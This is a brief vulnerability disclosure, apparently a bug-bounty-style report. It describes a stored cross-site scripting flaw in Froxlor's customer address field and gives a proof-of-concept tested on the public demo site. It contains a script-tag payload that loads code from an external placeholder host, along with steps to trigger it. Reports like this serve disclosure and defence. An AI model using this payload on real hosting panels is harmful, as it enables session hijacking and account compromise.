 # Description
FRoxlor is server administration software for your needs. Developed by experienced server administrators, this panel simplifies the effort of managing your hosting platform.
this pakage is vulnerable for xss

# Payload USED
```
<script src=https://domain></script>
```
# POC
* used https://demo.froxlor.org/ for testing
* login to admin account
* In customers account click on settings and update the address column with the payload and save the updates made.
* then just login to customer ac
* XSS triggered.
# PermaLinks
[gdive](https://drive.google.com/drive/folders/1D2wIlsZGDnhFdm2W51fDrDwogkHI7kBd?usp=sharing)
